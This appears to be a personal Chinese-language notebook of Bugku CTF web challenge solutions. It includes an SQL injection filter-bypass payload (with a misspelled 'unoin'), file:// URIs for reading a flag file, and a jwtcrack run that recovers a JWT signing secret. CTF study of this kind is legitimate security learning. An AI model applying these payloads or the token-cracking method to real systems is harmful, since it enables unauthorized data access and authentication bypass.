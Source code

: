 ### 11.30
#### 1、[https://ctf.bugku.com/challenges/detail/id/406.html](https://ctf.bugku.com/challenges/detail/id/406.html%E3%80%81)
题解：[[ctf-websqli-0x1-bugku题解]]
注意：对于mysqli来说query方法可以执行insert
学到的东西：
```sql
#使用浮点数加union的方式绕过空格，使用order by查询第一行数据
select * from users where username=1E0'unoin select * from users order by username desc
select * from users where username=1E0'unoin insert

```
[[sql注入绕过]]
#### 2、baby lfi 2
https://ctf.bugku.com/challenges/detail/id/426.html
题解：[[baby lfi 2题解]]
#### 3、nextGen2
https://ctf.bugku.com/challenges/detail/id/431.html
```
//以下三个的效果是一样的
file:///flag.txt
file://127.0.0.1/flag.txt
file://127.0.1/flag.txt
```
#### 4、whois
https://ctf.bugku.com/challenges/detail/id/432.html
[[whois题解]]

### 12.4
#### 1、just-work-type
注意：这个token由三部分组成以.分割，前两个部分是由base64编码的（注意万能解密工具中的那个base64编码可能没法用，用小葵，然后，破解密码的工具在kali中）
破解密码工具使用方法如下：
```
┌──(root㉿kali)-[~/桌面/c-jwt-cracker-master]
└─# ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOnsiYWRtaW4iOmZhbHNlLCJkYXRhIjp7InVzZXJuYW1lIjoiem9tYm8iLCJwYXNzd29yZCI6InpvbWJvIn19LCJpYXQiOjE3MDE2ODAxNDcsImV4cCI6MTcwMTY4Mzc0N30.d8DbLwxb3aqXtc2a8DsZOuAXFruBWbWYr8YaGF-ig5I
Secret is "123"
                             
```
[[json web token绕过思路]]